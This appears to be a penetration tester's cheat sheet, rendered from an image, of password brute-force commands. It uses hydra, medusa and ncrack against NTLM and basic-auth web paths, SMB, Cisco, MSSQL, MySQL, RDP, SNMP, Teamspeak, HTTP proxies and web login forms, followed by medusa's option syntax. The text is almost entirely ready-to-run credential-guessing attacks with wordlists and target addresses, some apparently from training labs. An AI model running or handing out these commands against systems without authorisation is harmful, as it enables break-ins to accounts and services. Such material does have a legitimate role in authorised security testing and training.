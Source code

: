 basic auth NTLM:
hydra -m /_layouts/15/Authenticate.aspx -L id.txt -P pass.txt -e s -V -f XXX.COM https-get >> brute_ntlm.out
hydra -m /webdev -l admin -P Password.txt -V -F 10.11.1.237 http-get >> brute_ntlm.out
hydra -m /reports -l admin -P worst-passwords.txt -V -F xxxxx.sa http-get >> brute_ntlm.out
hydra -m /webdev -l admin -P Password.txt -V -F 10.11.1.17 http-head >> brute_ntlm.out

poppassd :
IMAP4 :
LDAP :

SMB :
hydra  -v  -l Administrator -P fpass.lst smb://11.1.11.1 >> brute_smb.out
medusa -h 192.168.0.20 -u administrator -P passwords.txt -e ns -M smbnt >> brute_smb.out
hydra -L user.txt -P pass.txt -e ns -f -v -V -w5 10.10.10.2 smb >> brute_smb.out

Cisco :
hydra -f -v -P pass.txt 10.10.10.2 cisco >> brute_cisco.out
hydra -m cloud -P pass.txt 192.168.1.11 cisco-enable >> brute_cisco.out

MSSQL :
hydra -v -l sa -P fpass.lst -t 4 10.10.10.2 mssql -o brute_mssql.out
hydra -t 5 -V -f -l sa -P "C:\pass.txt" 1.2.144.244 mssql
hydra mssql://172.22.71.247:1433 -l sa -P /root/Desktop/parolalar

Oracle :

MySQL :
hydra -t 5 -V -f -l root -e ns -P common.txt localhost mysql
hydra -v -l root -P fpass.lst -t 1 mysql://ip -o brute_mysql.out

RDP :
medusa -u administrator -P /usr/share/john/password.lst -h 10.10.10.71 -M rdp
ncrack -p rdp -u administrator --pass 'password' -iL in2
hydra -v -f -l administrator -P common.txt rdp://192.168.67.132 // not good
ncrack -vv --user offsec -P password-file.txt rdp://10.10.10.10


PostgreSQL :
VNC :

SNMP :
hydra -P password-file.txt -v 10.10.10.10 snmp

Teamspeak :
hydra -l username -P wordlist -s portnumber -vV ip teamspeak >> brute_teamspeak.out

http-proxy :
hydra -v -l admin -P pass.txt http-proxy://192.168.1.111 >> brute_http-proxy.out

webform :
hydra -t 4 -l admin -V -P common.txt 192.168.206.1 http-form-post "/login/log.php:user=^USER^&password=^PASS^:S=success"
hydra -t 4 -l admin -V -P common.txt 192.168.206.1 http-form-post "/login/log.php:user=^USER^&password=^PASS^:fail"


Syntax:
Medusa [-h host|-H file] [-u username|-U file] [-p password|-P file] [-C file] -M module [OPT]
###############################################################################################
-h [TEXT]    : Target hostname or IP address
-H [FILE]    : File containing target hostnames or IP addresses
-u [TEXT]    : Username to test
-U [FILE]    : File containing usernames to test
-p [TEXT]    : Password to test
-P [FILE]    : File containing passwords to test
-C [FILE]    : File containing combo entries. See README for more information.
-O [FILE]    : File to append log information to
-e [n/s/ns]  : Additional password checks ([n] No Password, [s] Password = Username)
-M [TEXT]    : Name of the module to execute (without the .mod extension)